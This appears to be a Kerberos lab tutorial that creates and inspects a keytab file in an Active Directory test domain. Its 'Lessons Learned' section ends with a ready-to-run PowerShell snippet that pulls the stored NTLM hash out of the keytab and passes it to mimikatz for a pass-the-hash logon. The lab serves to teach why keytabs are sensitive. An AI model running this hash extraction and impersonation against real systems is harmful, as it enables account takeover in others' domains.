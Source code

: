 # Kerberos 101 Labs

## Create a keytab and inspect it

In this lab you will create a Keytab file. We are not be able to use it for something as Windows does not use Keytab files. Linux machines use Keytab files to authenticate with a Windows Active Directory domain.

In the Linux world or non-Microsoft Kerberos world, Keytab files very similar to the Windows trust relationship. When creating a keytab file, the password hash is stored in the on the given account in the KDC's database as well as the Keytab file.

:ballot_box_with_check: Logon to the machine `KerbClient2`.

:ballot_box_with_check: Create a new account in Active Directory and a Keytab file that that account.

```powershell
$ou = New-ADOrganizationalUnit -Name KeyTabTests -PassThru
New-ADUser -Name User1 -Path $ou

ktpass /out c:\krb5.keytab /princ User1$@a.vm.net /mapuser User1 /crypto RC4-HMAC-NT /ptype KRB5_NT_PRINCIPAL /pass Somepass2 /target KerbDC2.a.vm.net
```

Even if we cannot use the Keytab file, it is quite interesting to look at it. We can read the Keytab file with `ktpass.exe`.

:ballot_box_with_check: Open the Keytab file suing the following command:

```powershell
ktpass.exe /in C:\krb5.keytab
```

The output looks like this:

```text
Existing keytab:

Keytab version: 0x502
keysize 49 User1$@a.vm.net ptype 1 (KRB5_NT_PRINCIPAL) vno 3 etype 0x17 (RC4-HMAC) keylength 16 (0x39adbe3fcd45600a31b9ee56122b4a87)

WARNING: No principal name specified.
```

:question: Do you see any critical information in the output?

:question: How careful / secure should Keytab files be treated?

<details><summary><h2>Lessons Learned</h2></summary>

:bulb: Kerberos Keytab files are the equivilant to a Windows trust relationship.

:bulb: Because of that, the Keytab file stores the generated password hash which makes it pretty sensitive.

:warning: If someone has access to the Keytab file, using the hash to act as the user the Keytab file is mapped to, it quite easy:

```powershell
$keytab = ktpass.exe /in C:\krb5.keytab 2>&1
$keytab = -join $keytab 

$keytab -match '\(0x(?<Hash>[a-z0-9]+)\)'
$Matches.Hash

C:\mimikatz\x64\mimikatz.exe "sekurlsa::pth /user:install /domain:a /ntlm:$($Matches.Hash) /run:powershell" exit
```

</details>
